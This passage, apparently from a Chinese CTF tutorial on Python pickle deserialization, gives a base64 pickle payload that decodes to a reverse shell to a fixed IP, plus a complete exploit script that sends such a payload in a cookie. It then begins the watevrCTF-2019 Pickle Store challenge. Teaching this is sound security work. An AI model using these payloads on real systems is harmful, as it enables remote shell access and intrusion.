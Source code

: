 得到payload：

```
gASVAQEAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjOZweXRob24gLWMgJ2ltcG9ydCBzb2NrZXQsc3VicHJvY2VzcyxvcztzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKTtzLmNvbm5lY3QoKCI0Ny4xMDEuNTcuNzIiLDIzMzMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9iYXNoIiwiLWkiXSk7J5SFlFKULg==
```

将cookie改为上面的payload即可触发 Python 反序列化并成功反弹Shell。

给出一个完整的利用脚本Exp：

```
#!/usr/bin/env python3
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("你的VPS_ip地址",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return os.system, (s,)


poc = exp()
s = pickle.dumps(poc)     # s为payload，将其传送到目标题目的cookie中

response = requests.get("http://your-ip:5000/", cookies=dict(
    user=base64.b64encode(s).decode()
))
print response.content
```

执行后Exp脚本后，成功反弹shell。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t013b7c1afd406ee9a3.png)

这就是一个典型的 Python 反序列化题目。[[watevrCTF-2019]Pickle Store](https://www.cnblogs.com/h3zh1/p/12698897.html) 这道题就是这样的一道题。

**<a class="reference-link" name="%5BwatevrCTF-2019%5DPickle%20Store"></a>[watevrCTF-2019]Pickle Store**

进入题目，是一个可以购买flag的页面：

[![](https://p2.ssl.qhimg.com/t01a58632fe7cc228df.png)](https://p2.ssl.qhimg.com/t01a58632fe7cc228df.png)

但是我们的钱不够，一般这种题就是让你在cookie处入手：
